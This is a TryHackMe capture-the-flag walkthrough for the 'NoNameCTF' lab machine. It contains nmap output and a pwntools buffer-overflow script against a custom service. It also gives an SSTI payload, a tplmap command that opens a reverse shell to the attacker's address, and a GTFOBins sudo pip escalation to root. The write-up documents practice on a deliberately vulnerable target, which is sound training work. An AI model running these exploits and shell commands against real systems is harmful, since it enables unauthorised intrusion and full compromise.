









# THM NoNameCTF Writeup
## Enumeration
```
nmap -sCV -oN nmap/NoNameCTF <ip>
```
### Result
```
Nmap scan report for 10.10.107.235
Host is up (0.36s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:57:3f:cc:86:39:04:3b:f0:e6:46:bf:72:51:64:0b (RSA)
|   256 81:05:75:ad:78:83:62:b2:06:41:5b:e5:a5:a9:82:4d (ECDSA)
|_  256 0f:8d:0e:19:e9:c7:cc:14:39:e9:34:60:5c:f7:aa:fe (ED25519)
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
146/tcp   filtered iso-tp0
2222/tcp  open     EtherNetIP-1?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, NULL, RPCCheck, SSLSessionReq: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|   GetRequest, HTTPOptions, Help, RTSPRequest: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|     Wrong option
|_    Good bye
6666/tcp  filtered irc
8652/tcp  filtered unknown
9090/tcp  open     http          Tornado httpd 6.0.3
|_http-title: Site doesn't have a title (text/plain).
|_http-server-header: TornadoServer/6.0.3
49175/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.92%I=7%D=11/8%Time=618932E7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,7B,"Welcome\x20to\x20the\x20NoNameCTF!\r\nChoose\x20an\x20action:\r\
<SNIP>
\n>\x20login:\x202\r\n>\x20get_secret_directory:\x203\r\n>\x20store
SF:_your_buffer:\x204\r\n");

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We got 4 open ports, 22,80,2222,9090. Let's take a look at it one by one. First, nothing special about port 22. Next, port 80 is running website, must be there for a reason. Third, Port 2222 looks like running a unknown service, leave it first. Last, port 9090 running website using Tornado with version 6.0.3.

### Port 80
Looking at port 80 website's source code, we found a potential hint. Looks like hinting about buffer overflow. 



### Port 2222
Looking at port 2222, we can try connect to it via netcat:
```
nc <ip> 2222
```
Looks like it is providing some services. The **get_secret_directory** looks interesting but it was prompting us to login before using that service. We will come back to this later.



### Port 9090
Upon browsing to port 9090 website, we've encountered an error.



For now we have gathered some initial information about each open ports. Let's do a quick summarize, port 80 source code indicating we might need to do buffer overflow, since buffer overflow less likely will be happen in websites, let's now focus on port 2222.

### Exploiting port 2222
Based on the port 80 source code hint given, we can guess that vulnerable point was **store_your_buffer** functionality and the amount of buffer to overflow it most likely will be greater than 1000. After interacting a while with it, the flow to exploit it to get secret directory probably is:
```
Register an account -> Login -> Buffer Overflow on store_your_buffer -> get_secret_directory
```

I have wrote a script to automate this process:

```
#!/usr/bin/env python3

from pwn import *
import argparse
import pdb

parser = argparse.ArgumentParser(description="BOF Exploit")
parser.add_argument("host", help="The host IP address")
parser.add_argument("port", help="The host port")
args=parser.parse_args()

# Connection
target = remote(args.host, args.port)

# Registration
print("[+] Default hardcoded credential: anonymous:anonymous123")
print("[+] Registering using default hardcoded credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'1')
target.recvuntil(b'Enter an username:')
target.sendline(b'anonymous')
target.recvuntil(b'Enter a password:')
target.sendline(b'anonymous123')

# Login
print("[+] Loging using registered credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'2')
target.recvuntil(b'Username:')
target.sendline(b'anonymous')
target.recvuntil(b'Password:')
target.sendline(b'anonymous123')

# BOF
print("[+] Buffer Overflowing 'store_your_buffer' functionality")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'4')
target.recvuntil(b'Enter your buffer:')
buffer = b"A"*1500
target.sendline(buffer)

# Get secret
print("[+] Getting secret directory")
target.recvuntil(b'store_your_buffer: 4\r\n')
target.sendline(b'3')
print("[*] Success !!!\n")
print(target.recvline().decode("utf-8"))
```

Basically the script follows the flow i mentioned above and overflow the vulnerable functionality with 1500 bytes. We just need to supply the machine IP and port to execute this exploit.

```
$ python exploit.py 10.10.107.235 2222
[+] Opening connection to 10.10.107.235 on port 2222: Done
[+] Default hardcoded credential: anonymous:anonymous123
[+] Registering using default hardcoded credential
[+] Loging using registered credential
[+] Buffer Overflowing 'store_your_buffer' functionality
[+] Getting secret directory
[*] Success !!!

My secret in the port 9090 is: /xxxxx

[*] Closed connection to 10.10.107.235 port 2222
```

Yay ! Now we got the secret directory.
***
## Initial Foothold
Let's browse to port 9090 website with the secret directory:



Nothing interesting, how about the source code?


Yes ! We got a parameter hidden in source code. After some testing, looks like it was vulnerable to Server Side Template Injection (SSTI):
```
http://10.10.107.235:9090/xxxxx/?hackme={{7*7}}
```


Without further ado, let's spawn a reverse shell using **tplmap**:
#### Notes: If you have problem installing tplmap, take this: [solution](https://blog.csdn.net/weixin_46041615/article/details/121111050), you're welcome
```
python2 tplmap.py -u http://10.10.107.235:9090/xxxxx/?hackme= --reverse-shell 10.13.28.126 4567
```

Setup netcat to listen on certain port:
```
nc -lvnp 4567
```

Execute the tplmap's command and BOOM ! Reverse shell achieved !

***
## Privilege Escalation
> Classic <3 - GTFOBins
```
sudo -l
```


### Exploit 
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo /usr/bin/pip install $TF
```

### Rooted !



To whoever reading this till here, thank you so much and have a nice day !
